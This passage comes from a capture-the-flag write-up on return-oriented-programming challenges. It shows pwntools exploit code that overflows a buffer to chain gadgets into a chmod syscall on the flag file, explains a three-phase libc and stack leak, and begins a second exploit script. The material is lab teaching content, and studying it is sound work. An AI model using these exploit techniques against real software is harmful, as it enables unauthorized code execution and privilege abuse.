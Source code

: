 ```python
        # PHASE 3 - trigger a shellcode
        buf_3 = b'A' * (104 + delta)
        buf_3 += p64(pop_rdi_ret)
        buf_3 += p64(flag_addr)
        buf_3 += p64(pop_rsi_ret)
        buf_3 += p64(0xffff)
        buf_3 += p64(0x4141414141414141)  # r15 crap
        buf_3 += p64(pop_rax_ret)
        buf_3 += p64(90)
        buf_3 += p64(syscall_ret)
        buf_3 += b'/flag\x00\x00\x00' * 0x100
        p.send(buf_3)
        time.sleep(0.2)
        

if __name__ == '__main__':
    main()
```

So this is a 3-phase shellcode:

First, leaks libc address and restarts the program by jumping to `_start`. Afterwards, triggers the vuln once again and reads `libc.environ` value, retrieving the stack’s address, and restarting the program. 
Finally, jumps to syscall gadget and chmods the flag to readable permissions.

## Challenge 6

Similar to 5, now there’s no `syscall` gadget, nor `pop rax`. Simply retrieve them from libc. \
For simplicity, I’ve used `chmod` symbol located within libc, which is just a wrapper for the chmod syscall.

```python
from glob import glob
from dataclasses import dataclass
from subprocess import check_output
from pwn import *
import os, sys
import struct
import time
import shutil
import signal

BINARY = glob('/challenge/baby*')[0]
LIBC = '/lib/x86_64-linux-gnu/libc.so.6'
GDB_SCRIPT= '''
b challenge
'''

context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter('ignore')


def main(): 
    elf = ELF(BINARY)
    libc = ELF(LIBC)
    # TODO: leak stack address via the printf, and restart the program
    elf_puts = elf.symbols['puts']
    elf_start = elf.symbols['_start']
    elf_puts_got = elf.got['puts']
    libc_environ = libc.symbols['environ']
    libc_puts = libc.symbols['puts']
```